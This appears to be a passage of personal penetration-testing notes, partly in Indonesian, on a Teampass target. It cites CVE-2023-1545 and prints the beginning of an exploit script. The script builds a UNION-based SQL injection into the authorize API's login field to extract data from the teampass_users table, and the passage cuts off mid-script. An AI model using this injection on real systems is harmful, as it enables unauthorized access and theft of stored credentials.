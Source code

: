 ![](Pasted%20image%2020250223212122.png)
tidak berhasil
## D. Teampass
tidak menemukan version, coba cari manual
https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
[CVE-2023-1545](https://www.cve.org/CVERecord?id=CVE-2023-1545)
![](Pasted%20image%2020250224142310.png)
```
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
```
